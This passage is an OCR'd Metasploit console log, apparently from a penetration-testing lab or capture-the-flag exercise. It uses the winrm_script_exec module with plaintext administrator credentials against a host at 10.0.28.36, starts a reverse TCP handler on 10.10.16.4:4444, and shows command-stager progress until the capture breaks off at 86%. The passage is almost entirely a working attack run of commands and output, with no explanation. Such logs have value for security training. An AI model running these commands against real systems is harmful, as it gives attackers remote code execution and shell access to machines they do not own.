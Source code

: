 ```

Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
FORCE_VBS => true
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > set RHOSTS 10.0.28.36
RHOSTS => 10.0.28.36
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
USERNAME => administrator
msf5 exploit(windows/winrm/winrm_script_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] User selected the FORCE_VBS option
[*] Command Stager progress -   2.01% done (2046/101936 bytes)
[*] Command Stager progress -   4.01% done (4092/101936 bytes)
[*] Command Stager progress -   6.02% done (6138/101936 bytes)
[*] Command Stager progress -   8.03% done (8184/101936 bytes)
[*] Command Stager progress -  10.04% done (10230/101936 bytes)
[*] Command Stager progress -  12.04% done (12276/101936 bytes)
[*] Command Stager progress -  14.05% done (14322/101936 bytes)
[*] Command Stager progress -  16.06% done (16368/101936 bytes)
[*] Command Stager progress -  18.06% done (18414/101936 bytes)
[*] Command Stager progress -  20.07% done (20460/101936 bytes)
[*] Command Stager progress -  22.08% done (22506/101936 bytes)
[*] Command Stager progress -  24.09% done (24552/101936 bytes)
[*] Command Stager progress -  26.09% done (26598/101936 bytes)
[*] Command Stager progress -  28.10% done (28644/101936 bytes)
[*] Command Stager progress -  30.11% done (30690/101936 bytes)
[*] Command Stager progress -  32.11% done (32736/101936 bytes)
[*] Command Stager progress -  34.12% done (34782/101936 bytes)
[*] Command Stager progress -  36.13% done (36828/101936 bytes)
[*] Command Stager progress -  38.14% done (38874/101936 bytes)
[*] Command Stager progress -  40.14% done (40920/101936 bytes)
[*] Command Stager progress -  42.15% done (42966/101936 bytes)
[*] Command Stager progress -  44.16% done (45012/101936 bytes)
[*] Command Stager progress -  46.16% done (47058/101936 bytes)
[*] Command Stager progress -  48.17% done (49104/101936 bytes)
[*] Command Stager progress -  50.18% done (51150/101936 bytes)
[*] Command Stager progress -  52.19% done (53196/101936 bytes)
[*] Command Stager progress -  54.19% done (55242/101936 bytes)
[*] Command Stager progress -  56.20% done (57288/101936 bytes)
[*] Command Stager progress -  58.21% done (59334/101936 bytes)
[*] Command Stager progress -  60.21% done (61380/101936 bytes)
[*] Command Stager progress -  62.22% done (63426/101936 bytes)
[*] Command Stager progress -  64.23% done (65472/101936 bytes)
[*] Command Stager progress -  66.24% done (67518/101936 bytes)
[*] Command Stager progress -  68.24% done (69564/101936 bytes)
[*] Command Stager progress -  70.25% done (71610/101936 bytes)
[*] Command Stager progress -  72.26% done (73656/101936 bytes)
[*] Command Stager progress -  74.26% done (75702/101936 bytes)
[*] Command Stager progress -  76.27% done (77748/101936 bytes)
[*] Command Stager progress -  78.28% done (79794/101936 bytes)
[*] Command Stager progress -  80.29% done (81840/101936 bytes)
[*] Command Stager progress -  82.29% done (83886/101936 bytes)
[*] Command Stager progress -  84.30% done (85932/101936 bytes)
[*] Command Stager progress -  86.31% done (87978/101936 bytes)
```